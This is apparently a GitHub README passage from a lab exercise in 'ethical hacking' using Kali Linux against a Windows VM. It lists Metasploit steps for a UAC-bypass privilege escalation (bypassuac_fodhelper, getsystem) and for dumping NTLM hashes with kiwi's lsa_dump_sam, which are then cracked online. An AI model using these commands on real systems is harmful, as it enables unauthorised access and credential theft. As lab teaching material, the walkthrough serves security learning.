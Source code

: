 Using Kali Linux to inject privilege escalation into Windows VM

1. On the Kali Linux Meterpreter, we have to type in "background" to go back into msf6 exploit(multi/handler)

2.  > msf6 exploit(multi/handler) > use exploit/windows/local/bypassuac_fonhelper

3.  > msf6 exploit(windows/local/bypassuac_fonhelper) > set SESSION 6

4.  > msf6 exploit(windows/local/bypassuac_fonhelper) > set LHOST 10.0.9.4 [Kali Linux IP]

5.  > msf6 exploit(windows/local/bypassuac_fonhelper) > exploit

<p align="left">
Inject Privilege Escalation Commands <br/>
<img src="https://i.imgur.com/51y9MJt.png" height="35%" width="35%" alt=""/>
<br />    

6. > meterpreter > getsystem
    - This command gets system level access on the Windows VM

7. > meterpreter > getuid
    - This command checks if we really have system-level access
    - NT AUTHORITY\SYSTEM = Root level

8. > meterpreter > use kiwi
   - Using a package called Kiwi for stealing the username and password
  
<p align="left">
Checking if We Have System Level Access <br/>
<img src="https://i.imgur.com/51y9MJt.png" height="35%" width="35%" alt=""/>
<br />    

9. > lsa_dump_sam
    - This will give us Hash NTLM
    - We can use the Hash NTLM to find the passwords

<p align="left">
Hash NTLM <br/>
<img src="https://i.imgur.com/a9OapKR.png" height="35%" width="35%" alt=""/>
<br />    

10. Using [hashes.com](https://hashes.com/en/decrypt/hash) to crack the Hash NTLM

<p align="left">
Hashes.com Cracking <br/>
<img src="https://i.imgur.com/mq2EaJZ.png" height="35%" width="35%" alt=""/>
<br /> 



      
<h2></h2>

<h2>Conclusion</h2>

This lesson in ethical hacking has equipped us with valuable insights and practical skills for remote hacking into Windows VMs. We've learned essential commands like 'sessions' for managing infected machine sessions, 'sysinfo' for gathering system information, 'pwd' for examining virus directories, and 'cat', 'download', and 'upload' for file operations. Additionally, we've explored advanced techniques like capturing screenshots, logging keystrokes, and stealing user credentials with privilege escalation. These skills are not only informative but also essential for ethical hackers to better understand and secure systems against potential threats.
